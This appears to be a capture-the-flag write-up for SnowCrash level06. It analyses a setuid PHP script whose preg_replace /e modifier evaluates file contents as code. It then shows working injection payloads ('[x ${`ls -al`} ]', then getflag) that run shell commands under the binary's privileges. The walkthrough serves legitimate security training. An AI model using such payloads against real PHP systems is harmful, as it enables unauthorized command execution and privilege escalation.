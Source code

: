 # Level 06

When we examine what's inside the working directory, we get the following files:

    level06@SnowCrash:~$ ls
    level06  level06.php

When analyzing the executable file "level06" we see that it takes a file as argument:
    level06@SnowCrash:~$ ./level06
    PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

And looks like the source code from which the executable file was compiled from was level06.php:

    level06@SnowCrash:~$ strings level06
    ...
    /usr/bin/php
    /home/user/level06/level06.php
    ...

    level06@SnowCrash:~$ cat level06.php

    #!/usr/bin/php
    <?php
    
    function y($m) { 
	    $m = preg_replace("/\./", " x ", $m); 
	    $m = preg_replace("/@/", " y", $m); return $m; 
	    }
	
    function x($y, $z) { 
	    $a = file_get_contents($y); 
	    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
	    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); 
	    return $a; 
	    }
	
    $r = x($argv[1], $argv[2]); print $r;
    
    ?>

This PHP script is designed to process a file's content based on specific regular expression replacements.

It looks for patterns like `[x ...]` and replaces them with modified versions of the inner content.

The function y($m) takes a string $m and replaces:
- Every `.` with ` x `.
- Every `@` with ` y`.

The function x($y, $z) takes two arguments, $y and $z.
- $y is the filename whose content will be processed.
- $z is not used in the function.

- preg_replace("/\[/", "(", $a): Replaces all `[` with `(`
- preg_replace("/\]/", ")", $a): Replaces all `]` with `)`


For instance:

    level06@SnowCrash:~$ echo "THIS IS A TEST : [x HELLO ... @@@]" > /tmp/testa
    level06@SnowCrash:~$ ./level06 /tmp/testa
    THIS IS A TEST : HELLO  x  x  x   y y y

    
## Security problem

The use of the `/e` modifier in `preg_replace` is highly insecure as it allows execution of arbitrary PHP code, which means that whatever is parsed is transformed into php code. This can lead to security vulnerabilities such as code injection if the input is not properly sanitized.

Hence, the string remplacement can be evaluated as PHP code, we can execute commands to see if we get lucky:
For example :

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`ls -al`} ]' > /tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    PHP Notice:  Undefined variable: total 24
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
     in /home/user/level06/level06.php(4) : regexp code on line 1  

Now all we have to do is the same but with the getflag program, and we have our token.

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`getflag`} ]' > /tmp/test

https://www.php.net/manual/en/language.operators.execution.php
